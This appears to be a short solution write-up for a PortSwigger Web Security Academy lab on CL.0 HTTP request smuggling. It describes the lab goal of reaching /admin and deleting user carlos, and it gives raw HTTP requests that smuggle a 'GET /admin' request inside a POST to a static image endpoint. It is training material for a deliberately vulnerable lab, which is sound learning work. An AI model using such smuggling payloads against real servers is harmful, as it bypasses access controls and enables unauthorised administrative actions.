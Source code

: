 # [Lab: CL.0 request smuggling](https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling)

## Lab

This lab is vulnerable to CL.0 request smuggling attacks. The back-end server ignores the `Content-Length` header on requests to some endpoints.

To solve the lab, identify a vulnerable endpoint, smuggle a request to the back-end to access to the admin panel at `/admin`, then delete the user `carlos`.

## Solutions

payload:

```http
POST /resources/images/blog.svg HTTP/1.1
Host: id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

GET /admin HTTP/1.1
X-YzBqv:
```

```http
GET / HTTP/1.1
```
